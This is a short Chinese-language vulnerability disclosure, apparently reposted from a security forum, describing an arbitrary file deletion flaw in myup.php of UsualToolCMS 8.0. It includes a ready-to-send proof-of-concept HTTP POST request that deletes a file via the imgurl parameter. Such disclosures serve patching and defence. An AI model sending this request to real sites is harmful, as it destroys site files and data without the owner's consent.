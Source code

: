 # UsualToolcms 8.0 前台任意文件删除

> 原文：[https://www.zhihuifly.com/t/topic/3212](https://www.zhihuifly.com/t/topic/3212)

# UsualToolcms前台任意文件删除

## 一、漏洞简介

前台myup.php文件最后一段存在任意文件删除

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点：http://0-sec.org/myup.php

![image](img/35846b3689dd3314bca34877f23e55eb.png)

第47行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造poc，

![image](img/9bfc4de904966df975fdba75d652eea0.png)

![image](img/d0d6827f5b5e9dcd98dab0be1c582e93.png)

```
POST /UsualToolCMS/myup.php HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25 `get=delimg&imgurl=./1.php` 
```
